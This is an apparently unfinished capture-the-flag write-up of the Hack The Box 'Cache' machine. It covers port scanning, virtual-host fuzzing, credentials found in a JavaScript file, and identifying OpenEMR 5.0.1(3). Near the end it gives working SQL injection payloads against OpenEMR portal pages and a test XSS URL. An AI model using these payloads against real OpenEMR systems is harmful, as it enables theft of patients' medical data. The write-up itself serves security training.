# HTB - Cache

## Overview



Short description to include any strange things to be dealt with

## Useful Skills and Tools

#### Useful thing 1

* description with generic example

#### Useful thing 2

* description with generic example

## Enumeration

### Nmap scan

```text
zweilos@kali:~/htb/cache$ nmap -p- -sC -sV -oN cache.nmap 10.10.10.188
Starting Nmap 7.80 ( https://nmap.org ) at 2020-08-09 11:32 EDT
Nmap scan report for 10.10.10.188
Host is up (0.053s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 a9:2d:b2:a0:c4:57:e7:7c:35:2d:45:4d:db:80:8c:f1 (RSA)
|   256 bc:e4:16:3d:2a:59:a1:3a:6a:09:28:dd:36:10:38:08 (ECDSA)
|_  256 57:d5:47:ee:07:ca:3a:c0:fd:9b:a8:7f:6b:4c:9d:7c (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Cache
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 35.10 seconds
```

I started my enumeration with an nmap scan of `10.10.10.188`. The options I regularly use are: `-p-`, which is a shortcut which tells nmap to scan all ports, `-sC` is the equivalent to `--script=default` and runs a collection of nmap enumeration scripts against the target, `-sV` does a service scan, and `-oN <name>` saves the output with a filename of `<name>`.





[http://10.10.10.188/contactus.html?firstname=test&lastname=test&country=australia&subject=%3Cscript%3Ealert%28%22test%22%29%3C%2Fscript%3E\#](http://10.10.10.188/contactus.html?firstname=test&lastname=test&country=australia&subject=%3Cscript%3Ealert%28%22test%22%29%3C%2Fscript%3E#)

message submission results in url

### nikto

```text
- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          10.10.10.188
+ Target Hostname:    10.10.10.188
+ Target Port:        80
+ Start Time:         2020-08-09 11:33:04 (GMT-4)
---------------------------------------------------------------------------
+ Server: Apache/2.4.29 (Ubuntu)
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ Apache/2.4.29 appears to be outdated (current is at least Apache/2.4.37). Apache 2.2.34 is the EOL for the 2.x branch.
+ Server may leak inodes via ETags, header found with file /, inode: 2001, size: 5a4f70909088c, mtime: gzip
+ Allowed HTTP Methods: GET, POST, OPTIONS, HEAD
+ OSVDB-3233: /icons/README: Apache default file found.
+ /login.html: Admin login page/section found.
+ 7863 requests: 0 error(s) and 8 item(s) reported on remote host
+ End Time:           2020-08-09 11:40:20 (GMT-4) (436 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested
```


login.html seems to be rabbit hole. Never attempts to actually send data. 



bypassing the page by loading `net.html` seen in the source leads to "under construction" page.


```text
HTTP/1.1 200 OK
Date: Sun, 09 Aug 2020 16:12:49 GMT
Server: Apache/2.4.29 (Ubuntu)
Last-Modified: Thu, 21 Nov 2019 05:50:40 GMT
ETag: "122-597d4e09e1a40-gzip"
Accept-Ranges: bytes
Vary: Accept-Encoding
Content-Length: 290
Connection: close
Content-Type: text/html

<html>
<head>
 <body onload="if (document.referrer == '') self.location='login.html';">   
    <style>
body  {
  background-color: #cccccc;
}
</style>
</head>
<center>
    <h1> Welcome Back!</h1>
    


<h1>This page is still underconstruction</h1>
</center>
 </body>
</html>
```







found some credentials in the `functionality.js` file in the `/jquery` folder. `ash:H@v3_fun` This enabled me to login to the site, which I had already discovered to hold nothing useful. This password did not work for logging into SSH. I decided to try to use my `cewl` wordlist to see if I could enumerate a proper password now that I had a username. Nothing came back.

Next I tried enumerating subdomains using virtual host enumeration as described in the HTB machine [Forwardslash](https://zweilosec.gitbook.io/htb-writeups/linux-machines/hard/forwardslash-write-up#virtual-host-enumeration)

```text
zweilos@kali:~/htb/cache$ gobuster vhost -u http://cache.htb -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:          http://cache.htb
[+] Threads:      10
[+] Wordlist:     /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt
[+] User Agent:   gobuster/3.0.1
[+] Timeout:      10s
===============================================================
2020/08/09 14:56:31 Starting gobuster
===============================================================
Found: gc._msdcs.cache.htb (Status: 400) [Size: 422]
Found: _domainkey.cache.htb (Status: 400) [Size: 422]
Found: mailing._domainkey.sunnynews.cache.htb (Status: 400) [Size: 422]
Found: mailing._domainkey.info.cache.htb (Status: 400) [Size: 422]
Found: hallam_ad.cache.htb (Status: 400) [Size: 422]
Found: hallam_dev.cache.htb (Status: 400) [Size: 422]
Found: WM_J_B__Ruffin.cache.htb (Status: 400) [Size: 422]
Found: 2609_N_www.cache.htb (Status: 400) [Size: 422]
Found: 0907_N_hn.m.cache.htb (Status: 400) [Size: 422]
Found: 0507_N_hn.cache.htb (Status: 400) [Size: 422]
Found: faitspare_mbp.cit.cache.htb (Status: 400) [Size: 422]
Found: sb_0601388345bc450b.cache.htb (Status: 400) [Size: 422]
Found: sb_0601388345bc6cd8.cache.htb (Status: 400) [Size: 422]
Found: api_portal_dev.cache.htb (Status: 400) [Size: 422]
Found: api_web_dev.cache.htb (Status: 400) [Size: 422]
Found: api_webi_dev.cache.htb (Status: 400) [Size: 422]
Found: sklep_test.cache.htb (Status: 400) [Size: 422]
===============================================================
2020/08/09 15:06:19 Finished
===============================================================
```

I wasn't sure if any of these were useful \(or reachable, rather\) so I loaded up a bunch of other wordlists to try again until I got something that looked useful.

```text
zweilos@kali:~/htb/cache$ gobuster vhost -u http://cache.htb -w /usr/share/seclists/Discovery/DNS/
bitquark-subdomains-top100000.txt                 shubs-stackoverflow.txt
deepmagic.com-prefixes-top50000.txt               shubs-subdomains.txt
deepmagic.com-prefixes-top500.txt                 sortedcombined-knock-dnsrecon-fierce-reconng.txt
dns-Jhaddix.txt                                   subdomains-top1million-110000.txt
fierce-hostlist.txt                               subdomains-top1million-20000.txt
namelist.txt                                      subdomains-top1million-5000.txt
zweilos@kali:~/htb/cache$ gobuster vhost -u http://cache.htb -w /usr/share/seclists/Discovery/DNS/fierce-hostlist.txt 
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:          http://cache.htb
[+] Threads:      10
[+] Wordlist:     /usr/share/seclists/Discovery/DNS/fierce-hostlist.txt
[+] User Agent:   gobuster/3.0.1
[+] Timeout:      10s
===============================================================
2020/08/09 15:13:03 Starting gobuster
===============================================================
Found: ftp_.cache.htb (Status: 400) [Size: 422]
Found: ns_.cache.htb (Status: 400) [Size: 422]
Found: www_.cache.htb (Status: 400) [Size: 422]
===============================================================
2020/08/09 15:13:15 Finished
===============================================================
```

```text
zweilos@kali:~/htb/cache$ gobuster vhost -u http://cache.htb -w /usr/share/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt 
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:          http://cache.htb
[+] Threads:      10
[+] Wordlist:     /usr/share/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt
[+] User Agent:   gobuster/3.0.1
[+] Timeout:      10s
===============================================================
2020/08/09 15:13:34 Starting gobuster
===============================================================
Found: *.cache.htb (Status: 400) [Size: 422]
===============================================================
2020/08/09 15:22:01 Finished
===============================================================
```

All of these 400 errors were somewhat promising since those sites seem to exist but my requests to them aren't correct.

```text
zweilos@kali:~/htb/cache$ wfuzz --hh 8193 -w /home/zweilos/htb/cache/cache.cewl -H "Host: FUZZ.htb" http://10.10.10.188

Warning: Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.

********************************************************
* Wfuzz 2.4.5 - The Web Fuzzer                         *
********************************************************

Target: http://10.10.10.188/
Total requests: 1219

===================================================================
ID           Response   Lines    Word     Chars       Payload                                
===================================================================

000000606:   302        0 L      0 W      0 Ch        "HMS"                                  
000000610:   400        12 L     53 W     422 Ch      "CeWL 5.4.8 (Inclusion) Robin Wood (robin@digi.ninja) (https://digi.ninja/)"  
000001212:   302        0 L      0 W      0 Ch        "HMS"                                  

Total time: 6.391272
Processed Requests: 1219
Filtered Requests: 1216
Requests/sec.: 190.7288
```

`--hh 8193` filters out replies that are 8193 chars long, which was what it replied for pretty much everything, even if it didn't exist.



add to hosts navigating to `http://hms.htb` redirects to a login page at `http://hms.htb/interface/login/login.php?site=default` the creds from the previous site do not work here

[https://medium.com/@musyokaian/openemr-version-5-0-1-remote-code-execution-vulnerability-2f8fd8644a69](https://medium.com/@musyokaian/openemr-version-5-0-1-remote-code-execution-vulnerability-2f8fd8644a69) download script from [https://github.com/musyoka101/OpenEMR-5.0.1-Remote-Code-execution-Vulnerability-Exploit/blob/master/openemr\_exploit.py](https://github.com/musyoka101/OpenEMR-5.0.1-Remote-Code-execution-Vulnerability-Exploit/blob/master/openemr_exploit.py)

[https://labs.bishopfox.com/advisories/openemr-5-0-16-remote-code-execution-cross-site-scripting\#Arbitrary](https://labs.bishopfox.com/advisories/openemr-5-0-16-remote-code-execution-cross-site-scripting#Arbitrary)



ran dirbuster: shows admin.php 



which shows the version of this site. \(5.0.1\(3\)\) Searching for a vulnerability for this site leads to CVE-2019-8371 [https://www.cvedetails.com/cve/CVE-2019-8371/](https://www.cvedetails.com/cve/CVE-2019-8371/) 


There is also a vulnerability report that I found that deals with this specific version \(5.0.1.3\). [https://www.open-emr.org/wiki/images/1/11/Openemr\_insecurity.pdf](https://www.open-emr.org/wiki/images/1/11/Openemr_insecurity.pdf) This report details `admin.php`=unauthenticated user will be prompted with the database name, the site ID as well as the current version of OpenEMR.



`sql_patch.php`=reveals current patch level "OpenEMR Version = 5.0.1\(3\)"













Since the patient portal didnt seem to reveal any useful information, I moved on to the next section, SQL injection. The first example sounded interesting, because combined with the patient portal bypass, I could use the authenticated SQLi vulnerability.



```text
http://hms.htb/portal/find_appt_popup_user.php?catid=1' AND (SELECT 0 FROM(SELECT COUNT(*),CONCAT(@@VERSION,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)-- -
```


```text
/portal/add_edit_event_user.php?eid=1 AND EXTRACTVALUE(0,CONCAT(0x5c,VERSION()))

```

system\_user\(\) gets openemr@localhost database\(\) gets openemr

using `sqldump` on database `openemr` gets crapton of tables...

```text
Database: openemr                                                                                      
[234 tables]
+---------------------------------------+
| array                                 |
| groups                                |
| sequences                             |
| version                               |
| addresses                             |
| amc_misc_data                         |
| amendments                            |
| amendments_history                    |
| ar_activity                           |
| ar_session                            |
| audit_details                         |
| audit_master                          |
